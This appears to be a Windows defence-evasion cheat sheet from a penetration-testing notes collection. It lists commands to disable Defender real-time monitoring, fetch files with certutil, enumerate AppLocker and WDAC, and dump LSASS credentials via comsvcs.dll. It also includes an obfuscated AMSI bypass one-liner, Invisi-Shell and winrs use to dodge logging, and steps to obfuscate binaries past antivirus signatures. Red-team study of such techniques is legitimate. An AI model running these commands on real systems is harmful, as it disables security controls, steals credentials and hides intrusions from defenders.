 # Evasion
## General
#### Disable AV monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Check the language mode
```
$ExecutionContext.SessionState.LanguageMode
```

#### Download with certutil
```
certutil -urlcache -split -f <URL>
```

#### Check if applocker policy is running
```
Get-AppLockerPolicy -Effective
```

#### Enumerate applocker policy
```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

#### Check applocker policy in registery
```
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
```

#### Check for WDAC
```
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```

#### If code integrity is enforced and PowerShell is running in Constrained Langauge Mode use winrs instead of psremoting
```
runas /netonly /user:<DOMAIN\<USER> cmd.exe
winrs -r:<PC NAME> cmd
```

### LOLBAS
- Use Microsoft Signed Binaries to exploit https://lolbas-project.github.io/

#### For example dumping lsass:
```
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 708 C:\Users\Public\lsass.dmp full
dir C:\Users\Public\lsass.dmp
```

#### Powershell detections
- System-wide transcription
- Script Block logging 
- AntiMalware Scan Interface (AMSI)
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)

## AMSI Bypass
- https://amsi.fail/
- Then obfuscate with https://github.com/danielbohannon/Invoke-Obfuscation
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

## Invisi-shell
- Bypasses Sytem-Wide transcript
- https://github.com/OmerYa/Invisi-Shell
- Type exit from the new PowerShell session to complete the clean-up.

#### With admin privileges
```
./RunWithPathAsAdmin.bat 
```

#### With non-admin privileges:
```
RunWithRegistryNonAdmin.bat
```

## Winrs
- Use Winrs instead of PSRemoting to evade System-wide-transcript and deep script block logging
```
winrs -remote:server1 -u:<COMPUTERNAME>\<USER> -p:<PASS> hostname
```

## Com objects
- https://github.com/bohops/WSMan-WinRM

## AV Bypass
- Defendercheck to check for signatures https://github.com/matterpreter/DefenderCheck
- Run Defendercheck ```DefenderCheck.exe <PATH TO BINARY>```
- Replace string which gets detected.
- Recompile and check again!

- Obfuscate binary with https://github.com/mkaring/ConfuserEx
- Launch ConfuserEx
- In Project tab select the Base Directory where the binary file is located.
- In Project tab Select the Binary File that we want to obfuscate.
- In Settings tab add the rules.
- In Settings tab edit the rule and select the preset as `Normal`.
- In Protect tab click on the protect button.
- We will find the new obfuscated binary in the Confused folder under the Base Directory.
